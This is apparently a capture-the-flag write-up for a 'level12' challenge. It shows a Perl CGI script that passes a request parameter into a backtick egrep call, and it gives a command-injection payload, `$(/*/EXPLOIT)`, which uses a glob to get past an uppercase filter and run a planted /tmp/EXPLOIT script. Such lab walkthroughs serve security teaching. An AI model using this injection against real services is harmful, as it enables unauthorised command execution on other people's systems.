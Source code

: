 # Start

![](ls.webp)

As we can see there is a script *level12.pl* running on port 4646.

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
    $nn = $_[1];
    $xx = $_[0];
    $xx =~ tr/a-z/A-Z/;
    $xx =~ s/\s.*//;
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    foreach $line (@output) {
        ($f, $s) = split(/:/, $line);
        if($s =~ $nn) {
        return 1;
        }
    }
    return 0;
}

sub n {
    if($_[0] == 1) {
        print("..");
    } else {
        print(".");
    }    
}

n(t(param("x"), param("y")));
```

This script accept a request on port 4646, this request take 2 urlencoded arguments x, y. The arguments x is then transformed into uppercase and splited. Only the first part of the split is kept.

After splitting, egrep is run on file **/tmp/xd**, looking for patterns matching **x**. There is no need to go deeper than that.
The specific command being run is `egrep "^$xx" /tmp/xd`.

How can we exploit that ?

## Exploit

Since the argument x, is transformed into uppercase it makes things a bit more difficults. At first we thought about using something like this.

`$(EX=/tmp/exploit;${EX,,})` which would have be translated by batch as this
```bash
EX=/TMP/EXPLOIT     # Uppercase because of uppercase transformation from perl
${EX,,}             # ,, would transform /TMP/EXPLOIT into /tmp/exploit and then execute the line so: /tmp/exploit
```

**BUT** perl does not execute **bash** but **/bin/sh** which in this case refer to **dash**...

So we instead used a glob pattern. `$(/*/EXPLOIT)` and put the following file into **/tmp/EXPLOIT**.

```bash
#!/bin/bash

wall <<<"$(getflag)"
```